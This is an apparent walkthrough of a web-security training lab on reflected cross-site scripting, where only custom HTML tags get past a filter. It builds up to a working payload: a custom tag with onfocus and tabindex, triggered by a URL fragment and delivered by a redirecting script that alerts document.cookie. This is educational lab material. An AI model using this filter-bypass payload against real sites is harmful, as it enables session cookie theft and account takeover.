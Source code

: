 # Reflected XSS into HTML context with all tags blocked except custom ones
# Objective
This lab blocks all HTML tags except custom ones.\
\
To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

# Solution
## Analysis
If user clicks TAB different h1 block would be chosen (onfocus):
- `1 x TAB` - First Heading
- `2 x TAB` - Second Heading
- `3 x TAB` - Third Heading

```html
<h1 tabindex=”1”> Heading1 - SomeText </h1>
<h1 tabindex=”2”> Heading2 - SomeText </h1>
<h1 tabindex=”3”> Heading3 - SomeText </h1>
```

3 times TAB = Third block would be chosen (`onfocus`) = `alert()` would be executed.
```html
<h1 tabindex=”1”> Heading1 - SomeText </h1>
<h1 tabindex=”2”> Heading2 - SomeText </h1>
<h1 tabindex=”3” onfocus="alert()"> Heading3 - SomeText </h1>
```

In this example function `alert()` could be triggered by searching for specified `id` after `#` in URL.
`http//:$ip#i3` - would cause payload to execute
```html
<h1 tabindex=”1” id="i1"> Heading1 - SomeText </h1>
<h1 tabindex=”2” id="i2"> Heading2 - SomeText </h1>
<h1 tabindex=”3” onfocus="alert()" id="i3"> Heading3 - SomeText </h1>
```

## XSS Exploit

```
<customtag tabindex="1" onfocus="alert()" id="i1">
```
|![](Images/image-54.png)|
|:--:| 
| *Test of custom heading payload* |
|![](Images/image-55.png)|
| *Result* |

In order to make payload automatic `iframe` tag will have to be used.\

Final payload:
```
<script>
location = 'https://0abc003b04aff4f380c7e45f008e0093.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

```
//URL-Decoded /?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```